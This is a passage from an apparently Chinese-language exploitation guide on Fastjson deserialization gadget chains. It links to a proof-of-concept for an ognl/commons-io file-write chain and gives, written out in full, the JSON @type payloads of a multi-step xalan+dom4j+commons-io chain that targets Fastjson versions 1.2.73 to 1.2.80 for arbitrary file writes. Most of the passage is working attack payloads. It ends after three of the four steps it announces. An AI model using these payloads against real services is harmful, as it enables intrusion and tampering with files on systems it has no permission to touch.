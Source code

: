 [![](assets/1706254407-4af180b8bcd2706e43f9f8ad66f73e2a.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021213615716.png)

### 5.2.3 ognl+commons-io+aspectjtools+commons-codec 组合利用链

这条链主要是为了解决前面提到的的`io`链无法写入复杂文件结构的问题，文件依旧需要大于`8kb`才能写入。`poc`地址如下：

> [https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26\_ognl\_io\_write\_4.java](https://github.com/safe6Sec/ShiroAndFastJson/blob/master/src/main/java/com/shiro/vuln/fastjson/Fastjson26_ognl_io_write_4.java)

## 5.3 xalan+dom4j+commons-io (1.2.73<=version<=1.2.80)

### 5.3.1 xalan+dom4j+commons-io（2.0~2.6 版本）

分四步打，自行修改写入内容。

`payload50`（组合拳）：

```plain
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```plain
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```
